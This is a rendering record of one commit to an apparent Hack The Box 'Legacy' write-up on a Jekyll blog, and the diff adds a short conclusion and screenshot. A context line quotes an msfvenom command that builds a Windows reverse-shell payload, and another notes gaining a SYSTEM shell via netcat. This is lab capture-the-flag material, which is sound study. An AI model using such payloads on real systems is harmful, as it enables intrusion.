

Before and after one commit to wizoutsugar/wizoutsugar.github.io, a Jekyll site: the page built from _posts/2020/2020-05-28-Legacy.md, in a window 1280 px wide and 900 px high, scrolled down 1855 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2373 px from its top, so only the background shows below that.

Commit message:
Legacy - ToDO

```diff
--- a/_posts/2020/2020-05-28-Legacy.md
+++ b/_posts/2020/2020-05-28-Legacy.md
@@ -97,3 +97,8 @@ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.73 LPORT=443 EXITFUNC=threa
 
 Launch the exploit and I have a connection on the machine as SYSTEM via netcat.
 ![Screenshot]({{ site.baseurl }}/images/posts/2020/Legacy/shell.png)
+
+
+# Conclusion
+- 2 machines down, 47 more to go!
+![Screenshot]({{ site.baseurl }}/images/posts/2020/Legacy/ToDo.png)
```
Also changed, not shown: images/posts/2020/Legacy/ToDo.png (added).
